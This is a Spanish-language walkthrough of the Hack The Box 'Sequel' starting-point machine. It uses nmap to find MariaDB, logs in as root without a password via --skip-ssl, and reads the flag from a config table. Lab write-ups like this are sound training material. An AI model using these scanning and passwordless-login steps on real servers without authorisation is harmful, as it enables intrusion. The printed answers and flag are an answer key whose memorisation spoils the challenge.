 ```yaml
---
title: Sequel
date: 2025-04-5 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, sequel, mysql]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```

## Sequel
De nuevo como todas estas máquinas de starting point. El reto consiste en ir contestando a las preguntas 
estas están relacionadas con el servicio de MySQL.

Task 1
``` shell
$ nmap -p- 10.129.190.45  -vv
During our scan, which port do we find serving MySQL?
Scanning 10.129.16.98 [65535 ports]
Discovered open port 3306/tcp on 10.129.16.98
```
> 3306

Task 2

What community-developed MySQL version is the target running?

Para descubrir la versión de la DB nos valemos de los scripts de nmap usando el flag **-sC**
``` shell
┌──(kali㉿kali25)-[/etc/openvpn]
└─$ nmap -p 3306 -sC  10.129.190.45 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-06 15:45 EDT
Nmap scan report for 10.129.190.45
Host is up (0.047s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 40
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, LongColumnFlag, DontAllowDatabaseTableColumn, Support41Auth, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, ConnectWithDatabase, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolNew, SupportsCompression, ODBCClient, FoundRows, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: H"q5Ptx{&DeP?,^sHN1E
|_  Auth Plugin Name: mysql_native_password

Nmap done: 1 IP address (1 host up) scanned in 64.45 seconds

```
>MariaDB

Task 3

When using the MySQL command line client, what switch do we need to use in order to specify a login username?

Task 4
> -u

Which username allows us to log into this MariaDB instance without providing a password?

Usamos **--skip-ssl** para solucionar el problema de conectividad que presenta la máquina de SSL 
``` shell
┌──(kali㉿kali25)-[/etc/openvpn]
└─$ mysql -u root  -h  10.129.190.45 
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
┌──(kali㉿kali25)-[/etc/openvpn]
└─$ mysql -u root  -h 10.129.190.45 --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 48
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Task 5
>root

In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

Task 6
> *

In SQL, what symbol do we need to end each query with?

Task 7
> ;

There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?
``` shell
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.053 sec)
```
> htb

Submit Flag

``` shell
MariaDB [(none)]> use htb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.247 sec)

MariaDB [htb]> select * from config
    -> ;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.498 sec)

MariaDB [htb]> 

```

Submit root flag [achivement](https://www.hackthebox.com/achievement/machine/2336390/403)